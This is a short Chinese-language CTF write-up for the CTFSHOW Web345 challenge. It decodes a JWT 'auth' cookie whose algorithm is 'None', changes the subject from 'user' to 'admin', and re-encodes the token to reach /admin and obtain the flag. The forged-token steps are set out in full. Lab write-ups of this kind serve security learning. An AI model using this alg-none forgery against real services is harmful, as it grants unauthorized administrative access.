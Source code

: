 # CTFSHOW Web345

首先打开题目,查看源码，接下来访问/admin被跳转回主页啥也没有发生

```
where is flag?
<!-- /admin -->
```

当然知道这个板块是JWT，自然而然我们看一眼Cookie，发现名为auth的一个cookie为

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoidXNlciJ9XQ
```

通过base64解密或者去jwt.io解码也行，得到结果

```
{"alg":"None","typ":"jwt"}[{"sub":"user"}]
```

所以我们尝试把sub对应的键值修改

```
{"alg":"None","typ":"jwt"}[{"sub":"admin"}]
```

把前面部分和后面部分分别base64-encode

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0
```

后面

```
W3sic3ViIjoiYWRtaW4ifV0=
```

把这两部分用点(.)拼接两部分并去掉等于号

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoiYWRtaW4ifV0
```

此时拿着这一串cookie去替换掉原来的值，之后访问`/admin`即可获取flag

